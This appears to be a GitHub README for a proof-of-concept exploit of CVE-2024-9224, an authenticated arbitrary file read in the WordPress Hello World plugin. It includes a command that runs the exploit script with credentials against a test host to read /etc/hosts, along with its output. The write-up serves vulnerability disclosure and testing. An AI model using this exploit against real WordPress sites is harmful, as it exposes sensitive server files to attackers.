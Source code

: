 # CVE-2024-9224
Hello World &lt;= 2.1.1 - Authenticated (Subscriber+) Arbitrary File Read

# Description
The Hello World plugin for WordPress is vulnerable to Arbitrary File Reading in all versions up to, and including, 2.1.1 via the hello_world_lyric() function. This makes it possible for authenticated attackers, with subscriber-level access and above, to read the contents of arbitrary files on the server, which can contain sensitive information.


# Info

```
Published: 2024-09-30 00:00:00
CVE: CVE-2024-9224
CVSS: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
CVSS Score: 6.5
Slugs: hello-world
```

# Notes
It only displays a small part of the text file.

# POC

```
python3 CVE-2024-9224.py -un user -p user --url http://kubernetes.docker.internal -f /etc/hosts
Vulnerability check: http://kubernetes.docker.internal
Logged in successfully.
Nonce value: 0dbe58cb8d
Extracted text: 127.0.0.1	localhost
```
